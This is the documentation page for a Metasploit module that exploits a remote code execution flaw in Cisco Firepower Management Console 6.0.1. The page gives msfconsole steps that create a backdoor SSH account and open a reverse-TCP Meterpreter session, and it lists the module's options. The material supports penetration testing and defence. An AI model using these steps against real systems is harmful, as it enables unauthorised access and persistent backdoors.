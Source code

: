 This module exploits a vulnerability in Cisco Firepower Management Console RCE. It will
create a backdoor SSH account via HTTPS, and then obtain a native payload session
in SSH.

## Vulnerable Application

This exploit was specifically written against 6.0.1 (build 1213). To test, you can find the
virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052



## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cisco_firepower_useradd```
3. ```set password [https console password for admin]```
4. ```set rhost [IP]```
5. ```set payload linux/x86/meterpreter/reverse_tcp```
6. ```set lhost [IP]```
7. ```exploit```
8. You should get a session

## Options

### USERNAME

The username for Cisco Firepower Management console.

### PASSWORD

The password for Cisco Firepower Management console.

### NEWSSHUSER

The SSH account to create. By default, this is random.

### NEWSSHPASS

The SSH password for the new account. By default, this is also random.

### SSHPORT

In case for some reason, the SSH changed, otherwise this is 22 by default.
